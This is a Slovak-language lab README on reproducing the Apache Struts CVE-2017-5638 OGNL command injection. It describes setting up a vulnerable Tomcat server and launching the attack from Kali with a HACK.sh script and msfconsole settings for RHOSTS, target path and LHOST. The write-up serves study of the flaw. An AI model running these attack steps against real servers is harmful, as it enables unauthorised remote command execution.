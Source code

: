 # Otestovanie zraniteľnosti Struts na Ubuntu 16.04.02

Zraniteľnosť CVE-2017-5638 sa týkala webového aplikačného rámca Struts, ktorý slúži na vytváranie webových 
aplikácií v programovacom jazyku Java. Jednalo sa o verzie rámca Struts od 2.3.5 do 2.3.31 a od 2.5 
po 2.5.10. Rámec Struts bol zraniteľný voči útoku remote command injection, kvôli nesprávnemu spracovaniu 
hlavičky  Content-Type v požiadavke HTTP, čo umožňovalo vykonanie príkazov pod oprávneniami webového servera. 

Zraniteľnosť vznikla kvôli analyzátoru Jakarta Multipart, ktorý slúži na odosielanie súborov. 
Ak hodnota v hlavičke Content-Type nebola platná, čiže nezodpovedala očakávanému platnému typu, 
vyhodí sa výnimka, ktorá sa následne použije na zobrazenie chybovej správy používateľovi. V tomto 
prípade môžeme nastaviť hlavičku Content-Type na výraz v jazyku OGNL. Takto bolo možné spustiť OGNL príkazy,
ktoré následne spustili systémové volania.

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme postupovali podľa návodu 
*[Exploiting Apache Struts with CVE-2017-5638](https://samsclass.info/124/proj14/p9xstruts.htm)*. Podľa návodu sme
nainštalovali webový server Apache Tomcat a Maven. Na záver sme na server vložili zraniteľný rámec Struts.

## Konfigurácia Kali Linux 

Pre zaútočenie sme si vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v kozole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.30` a cesta `set targeturi /struts2_2.3.15.1-showcase/showcase.action`, čo nám nastaví cestu k
zraniteľnej aplikácii Struts. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.31` a spustiť útok. 

